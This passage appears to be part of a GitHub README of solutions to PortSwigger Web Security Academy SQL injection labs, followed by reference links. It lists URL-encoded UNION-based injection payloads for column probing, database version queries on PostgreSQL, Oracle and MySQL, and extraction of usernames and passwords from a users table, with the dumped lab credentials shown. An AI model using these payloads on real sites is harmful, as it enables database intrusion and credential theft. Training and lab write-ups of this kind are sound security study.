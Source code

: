 6. #### **SQL injection UNION attack, retrieving multiple values in a single column [on PostgreSQL]**

    ```sql
    '
    '+ORDER+BY+10--+
    ...
    '+ORDER+BY+2--+
    '+UNION+SELECT+null,null--+
    '+UNION+SELECT+null,'a'--+
    '+UNION+SELECT+null,@@version--+
    '+UNION+SELECT+null,version()--+
    '+UNION+SELECT+null,username||':'||password+FROM+users--+

    administrator:f6qbqbsagrrvalh8rlgn
    carlos:ga3cbtzle95cewsaiabd
    wiener:7ox6rd3ve2ghwdml6hh8  
    ```

### [Examining the database in SQL injection attacks][sqli_examining_the_database]

7. #### **SQL injection attack, querying the database type and version on Oracle**

    ```sql
    '
    '+ORDER+BY+10--+
    ...
    '+ORDER+BY+2--+
    '+UNION+SELECT+null,null--+
    '+UNION+SELECT+null,null+FROM+dual--+
    '+UNION+SELECT+null,'a'+FROM+dual--+

    v1: '+UNION+SELECT+null,banner+FROM+v$version--+

    CORE 11.2.0.2.0 Production
    NLSRTL Version 11.2.0.2.0 - Production
    Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
    PL/SQL Release 11.2.0.2.0 - Production
    TNS for Linux: Version 11.2.0.2.0 - Production


    v2: '+UNION+SELECT+null,version+FROM+v$instance--+

    11.2.0.2.0
    ```

8. #### **SQL injection attack, querying the database type and version on MySQL and Microsoft**

    ```sql
    '
    '+ORDER+BY+10--+
    ...
    '+ORDER+BY+2--+
    '+UNION+SELECT+null,null--+
    '+UNION+SELECT+null,'a'--+
    '+UNION+SELECT+null,@@version--+


[web_security_academy]: https://portswigger.net/web-security
[author's_twitter]:     https://www.twitter.com/UDPsycho
[wsa_getting_started]:  https://portswigger.net/web-security/getting-started
[wsa_learning_path]:    https://portswigger.net/web-security/learning-path
[wsa_all_labs]:         https://portswigger.net/web-security/all-labs
[burp_desktop]:         https://portswigger.net/burp/documentation/desktop
[burp_video_tutorials]: https://portswigger.net/burp/pro/video-tutorials
[sql_injection]:                     https://portswigger.net/web-security/sql-injection
[sqli_cheat_sheet]:                  https://portswigger.net/web-security/sql-injection/cheat-sheet
[sqli_retrieving_hidden_data]:       https://portswigger.net/web-security/sql-injection#retrieving-hidden-data
[sqli_subverting_application_logic]: https://portswigger.net/web-security/sql-injection#subverting-application-logic
[sqli_union_attacks]:                https://portswigger.net/web-security/sql-injection/union-attacks
[sqli_examining_the_database]:       https://portswigger.net/web-security/sql-injection/examining-the-database
[sqli_blind]:                        https://portswigger.net/web-security/sql-injection/blind
[sqli_script_conditional_responses]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/SQL%20Injection/Blind%20SQL%20injection%20with%20conditional%20responses
[sqli_script_conditional_errors]:    https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/SQL%20Injection/Blind%20SQL%20injection%20with%20conditional%20errors
[authentication]:                    https://portswigger.net/web-security/authentication
[auth_password_based]:               https://portswigger.net/web-security/authentication/password-based
[auth_script_ip_block]:              https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Broken%20brute-force%20protection%20IP%20block
[auth_script_account_lock]:          https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Username%20enumeration%20via%20account%20lock
[auth_multi_factor]:                 https://portswigger.net/web-security/authentication/multi-factor
[auth_other_mechanisms]:             https://portswigger.net/web-security/authentication/other-mechanisms
[auth_script_stay-logged-in_cookie]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Brute-forcing%20a%20stay-logged-in%20cookie
[directory_traversal]: https://portswigger.net/web-security/file-path-traversal
[command_injection]: https://portswigger.net/web-security/os-command-injection
[business_logic]:   https://portswigger.net/web-security/logic-flaws
[business_logic_1]: https://portswigger.net/web-security/logic-flaws/examples#excessive-trust-in-client-side-controls
[business_logic_2]: https://portswigger.net/web-security/logic-flaws/examples#failing-to-handle-unconventional-input
[bussiness_logic_script_low_level]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Business%20Logic/Low-level%20logic%20flaw
[business_logic_3]: https://portswigger.net/web-security/logic-flaws/examples#making-flawed-assumptions-about-user-behavior
[business_logic_4]: https://portswigger.net/web-security/logic-flaws/examples#domain-specific-flaws
[business_logic_5]: https://portswigger.net/web-security/logic-flaws/examples#providing-an-encryption-oracle
[information_disclosure]: https://portswigger.net/web-security/information-disclosure
[access_control]: https://portswigger.net/web-security/access-control
[file_upload_vulnerabilities]: https://portswigger.net/web-security/file-upload
[file_upload_vulnerabilities_file_signature]: https://www.garykessler.net/library/file_sigs.html
[ssrf]:                       https://portswigger.net/web-security/ssrf
[ssrf_common_attacks]:        https://portswigger.net/web-security/ssrf#common-ssrf-attacks
[ssrf_blind_vulnerabilities]: https://portswigger.net/web-security/ssrf/blind